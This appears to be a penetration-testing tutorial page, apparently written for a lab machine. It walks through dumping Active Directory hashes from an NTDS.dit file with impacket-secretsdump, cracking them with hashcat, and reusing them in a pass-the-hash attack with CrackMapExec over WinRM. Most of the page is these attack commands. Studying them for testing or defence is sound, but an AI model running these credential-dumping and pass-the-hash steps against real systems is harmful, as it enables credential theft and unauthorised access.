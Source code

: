 # Access to NTDS.dit -- Secretsdump

This use case is for the situation that you have access to an NTDS.dit file.

* This file is essentially the database that holds all AD users, hashes, objects, etc.
* As a result, it is a gold mine and its secrets can be dumped via secretsdump.

<mark style="color:yellow;">First, dump the NTDS.dit database file with secretsdump</mark>:

### Dump Secrets

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM -sam SAM LOCAL | tee secrets
```

<mark style="color:yellow;">Next, copy the Kerberos portion of the dump and put it in a file called secrets.txt (replace/overwrite as needed)</mark>.

After, we can then attempt to crack with Hashcat:

```
.\hashcat.exe -m 1000 hashes.txt .\rockyou.txt

.\hashcat.exe hashes.txt .\rockyou.txt
```

### Unable to Crack with Hashcat? Let's Pass-The-Hash!

* We can attempt a <mark style="color:yellow;">Pass-The-Hash attack</mark>
* First, <mark style="color:yellow;">we need to separate the users and hashes into two different files</mark>

users.txt:

```
cat secrets | cut -d":" -f1 | tee users.txt

cat users.txt 

Administrator
Guest
RESOURCEDC$
krbtgt
M.Mason
K.Keen
L.Livingstone
J.Johnson
V.Ventz
S.Swanson
P.Parker
R.Robinson
D.Durant
G.Goldberg
```

* <mark style="color:yellow;">We now have a neat list of users</mark>

hashes.txt:

```
cat secrets | cut -d":" -f4 | tee hashes.txt
```

* <mark style="color:yellow;">We now have a neat list of hashes</mark>

### CrackMapExec: Pass-The-Hash

```
crackmapexec winrm 192.168.81.175 -u users.txt -H hashes.txt
```
